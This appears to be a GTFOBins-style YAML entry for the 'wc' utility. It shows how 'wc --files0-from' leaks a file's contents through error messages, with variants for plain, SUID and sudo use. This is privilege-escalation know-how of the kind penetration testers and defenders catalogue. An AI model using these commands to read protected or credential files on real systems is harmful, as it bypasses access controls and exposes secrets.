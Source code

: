 description: The file content is parsed as a sequence of `\x00` separated paths. On error the file content appears in a message, so this may not be suitable to read binary files.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        wc --files0-from "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./wc --files0-from "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo wc --files0-from "$LFILE"
---
